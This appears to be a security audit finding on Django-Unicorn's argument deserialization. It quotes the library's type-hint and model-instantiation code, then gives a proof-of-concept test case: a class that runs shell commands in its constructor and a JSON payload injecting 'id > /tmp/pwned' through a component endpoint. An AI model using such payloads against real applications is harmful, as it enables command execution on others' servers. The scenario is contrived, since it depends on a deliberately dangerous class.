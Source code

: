 ```python
if _check_pydantic(_type_hint) or is_dataclass(_type_hint):
    value = _type_hint(**value)
    break

value = _type_hint(value)
break
```

When handling model objects, Django-Unicorn attempts to create model instances from deserialized data:

```python
if is_model:
    DbModel = type_hint  # noqa: N806
    key = "pk"
    value = None

    if not kwargs:
        value = args[len(parsed_args)]
        parsed_args.append(DbModel.objects.get(**{key: value}))
    else:
        value = kwargs.get("pk")
        parsed_kwargs[argument] = DbModel.objects.get(**{key: value})
```

While these mechanisms are generally safer than direct `eval()`, the complex processing of arguments and dynamic instantiation of objects could still lead to security issues, especially with complex nested objects.

### Security Test Case
1. Create a component with a property type-hinted as a class with dangerous side effects:
   ```python
   class DangerousClass:
       def __init__(self, cmd=None):
           if cmd:
               import subprocess
               subprocess.run(cmd, shell=True)

   class VulnerableComponent(UnicornView):
       dangerous: DangerousClass = None
   ```
2. Deploy the application and obtain a valid session with authentication
3. Craft a payload to update the `dangerous` property:
   ```json
   {
     "data": {"dangerous": {"cmd": "id > /tmp/pwned"}},
     "checksum": "<valid_checksum>",
     "id": "<component_id>",
     "epoch": 123456789,
     "actionQueue": [
       {
         "type": "syncInput",
         "payload": {"name": "dangerous", "value": {"cmd": "id > /tmp/pwned"}}
       }
     ]
   }
   ```
4. Send the payload to the `/message/vulnerable-component` endpoint
5. Verify that the command was executed by checking for the existence of `/tmp/pwned`
